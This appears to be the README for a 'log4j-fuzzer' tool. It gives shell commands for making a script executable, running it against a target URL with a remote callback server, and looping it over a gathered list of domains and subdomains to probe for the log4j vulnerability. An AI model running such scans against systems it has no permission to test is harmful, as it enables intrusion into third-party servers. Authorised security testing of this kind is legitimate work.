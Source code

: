 # log4j-fuzzer
## For Single Target 
```bash
chmod +x log4j
```
After That Command Simply Put Your Target 
```bash
./log4j [YOUR_TARGET_URL] [YOUR_REMOTE_SERVER]
```
## For Multiple Target 
**Gether All Domain, Subdomain, Directroty in a list**
After That Simply Command This 

```bash
chmod +x log4j
```
You Can Create a remote server With https://github.com/projectdiscovery/interactsh or else try `DNSLOG.CN` this 

```bash
cat [put_your_list_name_here.txt] | while read line ; do ./log4j $line [YOUR_Remote_Server_IP/URL_HERE] ;done
```

